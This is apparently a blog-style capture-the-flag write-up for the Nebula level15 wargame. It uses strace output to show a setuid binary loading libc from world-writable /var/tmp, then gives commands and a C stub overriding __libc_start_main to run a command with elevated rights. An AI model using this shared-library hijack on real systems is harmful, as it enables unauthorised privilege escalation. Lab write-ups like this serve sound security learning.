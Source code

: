 ##Description:


[Problem source](https://exploit-exercises.com/nebula/level15/)


We are given an executable with suid bit set. As indicated by the problem
description, the program is most likely trying to load a shared library during
the runtime from an unsecured location.

##Solution


Stracing the executable shows that the program is trying to load dynamic
libraries from publicly writable directories.

	stat64("/var/tmp/flag15/sse2/cmov", 0xbfc67064) = -1 ENOENT (No such file or directory) 
	open("/var/tmp/flag15/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory) 
	stat64("/var/tmp/flag15/sse2", 0xbfc67064) = -1 ENOENT (No such file or directory)
	open("/var/tmp/flag15/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory) 
	stat64("/var/tmp/flag15/cmov", 0xbfc67064) = -1 ENOENT (No such file or directory) 
	open("/var/tmp/flag15/libc.so.6", O_RDONLY) = 3

We can compile our own libc and the program will most likely load it, as
/var/tmp/ is publicly writable folder.

First lets create a dummy file in the location `/var/tmp/flag15/libc.so.6` and
see if the program will try to load it.

	mkdir /var/tmp/flag15/
	touch /var/tmp/flag15/libc.so.6

Runnign the program again

	./flag15: error while loading shared libraries:
	/var/tmp/flag15/libc.so.6: file too short	

Good. Now the only thing left for us is to compile our own libc library. `ld` is
calling to the __libc_start_main when it first gets loaded in the memory. So we
can only implement this function and it will be automatically called by the
dynanmic linker. 

	int __libc_start_main(){
		system("/bin/getflag");
	}

##Lessons learned


Compiling the shared library had some problems. Will investigate further after
my ELF Article


Article about `strace` -- Coming up

